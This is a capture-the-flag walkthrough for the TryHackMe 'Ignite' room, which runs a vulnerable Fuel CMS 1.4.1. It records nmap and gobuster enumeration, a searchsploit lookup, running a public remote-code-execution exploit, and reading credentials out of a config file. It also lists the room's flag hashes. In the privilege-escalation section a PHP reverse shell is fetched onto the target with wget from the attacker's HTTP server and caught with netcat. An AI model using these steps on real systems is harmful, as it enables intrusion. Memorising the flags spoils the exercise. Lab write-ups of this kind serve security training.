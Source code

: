 
link: [https://tryhackme.com/room/ignite](https://tryhackme.com/room/ignite)

# Task 1: Root It

User.txt
>6470e394cbf6dab6a91682cc8585059b

Root.txt
>b9bbcb33e11b80be759c4e844862482d


## Enumeration

Firstly, run a nmap scan and found port 80 is open.
```bash
└─$ nmap -sV -sC 10.10.201.62 

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```

Navigate to http://10.10.201.62 inside the browser.
![[fuel-cms-1.png]]
![[fuel-cms-2.png]]
![[fuel-cms-3.png]]
![[fuel-cms-4.png]]

From above there's a link provided an admin panel link http://10.10.201.62/panel with username and password provided.
- Username: `admin`
- Password: `admin`
But looks like nothing special here.
![[fuel-dashboard.png]]


Run gobuster for directory scanning and there's nothing special too.
```bash
└─$ gobuster dir -u http://10.10.201.62/ -w /usr/share/wordlists/dirb/common.txt       
```
![[gobuster.png]]

Use searchsploit to search for vulnerability that running on Fuel CMS version 1.4
- Based on the result there's 3 exploit existed 
```bash
└─$ searchsploit fuel cms 1.4
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                                                                                                                                                | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                                                                                                                                | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                                                                                                                                                | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                                                                                                                                               | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                                                                                                                                      | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                                                                                                                          | php/webapps/48778.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

![[searchsploit.png]]

Download the exploit python script
```bash
└─$ searchsploit -m 50477
```

Run the `50477.py` script with url and we able to gained access to it.
![[run-exploit.png]]

Try to cat for `fuel/application/config/database.php` and we'll found the password for root user.
![[database.php.png]]

Try to search for user flag。
![[user-flag.png]]

## Privileges Escalation

We need a way to get a shell in the system, “sudo -l” doesn’t return anything to us. What we can do is to upload a reverse shell onto the `www-data`
```bash
# locate webshell file
└─$ locate shell.php

# copy it to current directory
└─$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php

# edit the reverse shell by changing the ip address of kali machine and local port
└─$ nano shell.php 

# create a http server for target machine to download the shell.php file
└─$ python3 -m http.server 80   
```

Back to target machine terminal and download the `shell.php` file.
```bash
wget http://10.2.20.52:80/shell.php
```

Start a netcat listener on local machine to catch the shell once the `shell.php` is executed on the target machine.
```bash
└─$ nc -nvlp 1234
```

Navigate to the http://10.10.201.62/shell.php to execute the `shell.php` and we should now able to get an reverse shell on netcat listener
![[root-access.png]]